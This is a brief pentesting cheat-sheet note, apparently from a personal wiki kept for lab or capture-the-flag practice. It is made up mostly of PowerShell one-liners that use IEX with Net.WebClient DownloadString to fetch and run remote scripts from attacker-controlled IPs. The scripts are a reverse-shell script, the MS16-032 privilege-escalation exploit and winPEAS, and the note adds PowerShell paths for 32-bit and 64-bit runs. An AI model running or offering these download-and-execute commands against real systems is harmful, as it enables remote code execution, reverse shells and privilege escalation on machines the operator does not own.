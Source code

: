 I used below command on multiple systems to get a file on target windows system after [[How to make your system into a server using python module]]



c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.32/reverse.ps1')


or we can use theis directly into powershell

```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.32/reverse.ps1')
```

One more thing to keep in mind

It we want to use 32 bit, we can use below full path to powershell:
1. `c:\windows\system32\WindowsPowershell\v1.0\powershell.exe`
2. `c:\windows\sSyswow64\WindowsPowershell\v1.0\powershell.exe`

it we want to use 64 bit we can use abe earlier mentioned one

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.32/Invoke-MS16032.ps1')
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.17.24.189/winPEASany.exe')
```
